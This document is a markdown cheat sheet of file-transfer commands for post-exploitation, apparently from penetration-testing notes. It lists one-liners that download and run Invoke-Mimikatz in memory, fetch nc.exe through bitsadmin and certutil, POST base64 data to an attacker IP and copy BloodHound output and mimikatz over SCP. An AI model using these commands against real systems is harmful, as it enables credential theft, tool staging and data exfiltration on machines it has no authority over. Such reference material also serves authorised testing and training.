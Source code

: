 
---

| **Command**                                                                                                        | **Description**                              |
| ------------------------------------------------------------------------------------------------------------------ | -------------------------------------------- |
| `Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`                                            | Download a file with PowerShell.             |
| `IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`                              | Execute a file in memory using PowerShell.   |
| `Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`                                            | Upload a file with PowerShell.               |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`                                                   | Download a file using Bitsadmin.             |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`                                                      | Download a file using Certutil.              |
| `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`                   | Download a file using Wget.                  |
| `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`                   | Download a file using cURL.                  |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`          | Download a file using PHP.                   |
| `scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`                                                 | Upload a file using SCP.                     |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`                                                           | Download a file using SCP.                   |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent. |

---
